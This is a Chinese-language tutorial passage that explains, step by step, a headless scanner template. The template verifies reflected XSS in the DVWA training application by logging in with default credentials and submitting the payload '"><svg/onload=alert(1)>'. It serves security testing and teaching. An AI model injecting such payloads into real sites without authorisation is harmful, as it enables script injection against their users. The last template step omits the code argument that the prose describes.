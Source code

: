 <a name="gBsaF"></a>
## 3.1 隐藏浏览器（Headless）模式
**关键点说明：**<br />1、浏览器模式headless:<br />2、定义步骤- steps:<br />3、页面导航行为action: navigate<br />4、等待加载动作- action: waitload，特别注意，如果网络卡，这种模式会等很长时间<br />5、脚本行为- action: script，hook模式hook: true，并执行了一段代码重载了alert<br />6、基于xpath找到用户名：xpath: /html/body/div/div[2]/form/fieldset/input，并设置输入为admin，value: admin，注意其后面的action: text指定了行为模式text模式，等同于文本模拟输入<br />7、xpath找到响应按钮，模拟点击action: click，然后等待加载- action: waitload<br />8、模拟键盘发送回车，并等待<br />      - args:<br />          keys: "\r" # Press the enter key on the keyboard<br />        action: keyboard<br />      - action: waitload<br />9、监测脚本行为，名为alert，监测数据window.data，目的是最终定义name为alert给matchers进行匹配<br />      - action: script<br />        name: alert<br />        args:<br />          code: "window.data"

参考代码
```
id: dvwa-xss-verification

info:
  name: DVWA Reflected XSS Verification
  author: pd-team
  severity: info

headless:
  - steps:
      - args:
          url: "{{BaseURL}}"
        action: navigate
      - action: waitload

      # Set the hook to override window.data for xss detection
      - action: script
        args:
          hook: true
          code: "(function() { window.alert = function() { window.data = 'found' } })()"
      - args:
          by: x
          value: admin
          xpath: /html/body/div/div[2]/form/fieldset/input
        action: text
      - args:
          by: x
          value: password
          xpath: /html/body/div/div[2]/form/fieldset/input[2]
        action: text
      - args:
          by: x
          xpath: /html/body/div/div[2]/form/fieldset/p/input
        action: click
      - action: waitload
      - args:
          by: x
          xpath: /html/body/div/div[2]/div/ul[2]/li[11]/a
        action: click
      - action: waitload
      - args:
          by: x
          value: '"><svg/onload=alert(1)>'
          xpath: /html/body/div/div[3]/div/div/form/p/input
        action: text
      - args:
          keys: "\r" # Press the enter key on the keyboard
        action: keyboard
      - action: waitload
      - action: script
        name: alert
```